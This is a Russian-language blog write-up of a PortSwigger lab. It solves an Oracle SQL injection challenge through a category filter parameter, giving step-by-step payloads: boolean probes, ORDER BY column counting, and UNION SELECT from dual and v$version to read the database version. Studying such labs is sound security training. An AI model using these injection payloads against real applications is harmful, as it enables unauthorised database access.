 ```yaml
---
title: "SQL injection attack, querying the database type and version on Oracle"
date: 2025-06-06
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle"
classes: wide
---
```


В лабе есть уязвимость **SQL injection**. Для прохождения нужно отобразить версию БД.

```
https://0a11002e03d1573680d7176e00b80024.web-security-academy.net/
```

## Solution

Первым делом осмотрю страницу. В глаза бросается фильтр категорий:


![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_sqli/IMG_SQL_injection_attack_querying_the_database_type_and_version_on_Oracle/1.png){: height="200" .align-center}


Категория передается через параметр `GET`-запроса:

```
https://0a11002e03d1573680d7176e00b80024.web-security-academy.net/filter?category=Accessories
```

Попробую покрутить данный параметр:

```
123'+or+true-- -error
123'+or+true-- -error
123'+or+1=1-- -ok
123'+or+1=0-- -ok
```

<details>
<summary>Пояснение</summary> 
  
<strong>SQL</strong> синтаксис и типы данных строго различаются. true — булево значение, без кавычек, а поле — строковое, поэтому возникает синтаксическая ошибка. 1=1 и 1=0 работают — логические операции с числами (не требуют кавычек). БД возвращает статус ok — значит, параметр обрамляется кавычками, и для инъекций нужно использовать числовые выражения, а не булевы напрямую.

</details>

`123'+or+1=0-- -` выдал пустую страницу, что соответствует моему ожиданию. Значит для обрамления используется `'`. 


Попробую узнать количество колонок с помощью `ORDER BY`:

```
' ORDER BY 1,2,3,4-- -err
' ORDER BY 1,2,3-- -err
' ORDER BY 1,2-- -OK
```

Значит в БД две колонки. 


Попробую использовать **UNION based injections**.

```
1' UNION SELECT 1, 2-- -err
1' UNION SELECT null, null-- -err
1' UNION SELECT '1', '2'-- -err
1' UNION SELECT '1', '2' FROM dual-- -ok
```


![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_sqli/IMG_SQL_injection_attack_querying_the_database_type_and_version_on_Oracle/2.png){: height="200" .align-center}


Попробую вытащить версию. Нашел описание таблицы `v$version` на сайте [Oracle](https://docs.oracle.com/en//database/oracle/oracle-database/21/refrn/V-VERSION.html). Соберу пейлоад:

```
1' UNION SELECT 'version', BANNER FROM v$version-- -
```


![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_sqli/IMG_SQL_injection_attack_querying_the_database_type_and_version_on_Oracle/3.png){: height="200" .align-center}


Лаба пройдена:3 ☕